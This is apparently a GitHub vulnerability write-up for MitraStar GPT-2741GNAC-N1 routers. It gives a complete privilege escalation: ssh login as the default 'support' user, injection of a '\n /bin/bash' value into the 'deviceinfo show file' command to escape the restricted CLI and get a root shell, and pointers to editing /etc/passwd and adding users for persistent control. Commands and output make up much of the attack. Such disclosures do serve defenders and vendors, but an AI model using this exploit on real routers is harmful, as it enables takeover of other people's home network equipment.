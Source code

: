 ## Privilege escalation MitraStar Router GPT-2741GNAC-N1

### Vulnerability on MitraStar routers

**Device:** MitrastarGPT-2741GNAC-N1

**Firmware:** BR_g5.9_1.11(WVK.0)b32 (not tested in other version)

### Exploit

**Mitrastar GPT-2741GNAC-N1** devices are provided with access through ssh into a restricted default shell:

```sh
C:\Users\<username>\ssh support@192.168.15.1
support@192.168.15.1's password:
```

The restricted shell has CLI Version **Reduced_CLI_HGU_v14**, and the environment is restricted to avoid execution of common linux/unix commands.

```sh
>show device_model
device_model GPT-2741GNAC
>show cli_version
cli_version Reduced_CLI_HGU_v14
```

The command **deviceinfo show file** is supposed to be used from reduced CLI to show files and directories. Because this command do not handle correctly special characters, is possible to insert a second command as a parameter in the "path" value. Using **"\n /bin/bash"** as a parameter value, we can generate a console with root access, as seen below:

```
> deviceinfo show file "\n /bin/bash"
app             bosa            data            etc             lib             mini_httpdroot  sbin            tmp             usr
bin             bosabackup      dev             fwbuffer        linuxrc         proc            sys             userfs          var
```

So it is possible to escalate privileges by spawning a full interoperable console with root privileges

Through this escalation we can change the content of **/etc/passwd** or **(/var/passwd)**, create new users, or change any other system resource permanently.

The user **support** is provided printed on the back of the router. In some cases, this routers use default credentials.
